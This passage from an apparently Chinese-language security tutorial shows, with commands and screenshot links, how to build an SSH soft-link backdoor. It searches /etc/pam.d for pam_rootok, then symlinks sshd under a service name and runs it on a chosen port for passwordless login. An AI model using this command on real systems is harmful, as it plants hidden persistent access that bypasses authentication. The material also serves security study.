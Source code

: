 现在再执行`find /etc/pam.d|xargs grep "pam_rootok"`命令查找，可以看到，可用的名字已经多了一个**kali**了：
![image-20230426005254226](https://res.cloudinary.com/sycamore/image/upload/v1682441578/Typera/2023/04/1083edad21219c631ebbe5a28ceaba4f.png)
现在再使用命令：`ln -sf /usr/sbin/sshd /usr/local/kali;/usr/local/kali -oPort=端口号`创建软链接，就能达到普通用户免密登陆的效果

**实现：**
![image-20230426005258790](https://res.cloudinary.com/sycamore/image/upload/v1682441582/Typera/2023/04/4b19889af9d0e88eadf9e812f25d2cd0.png)


![image-20230426005304178](https://res.cloudinary.com/sycamore/image/upload/v1682441588/Typera/2023/04/e00aa90c6fe6c5fda03c942cf6a9fd29.png)
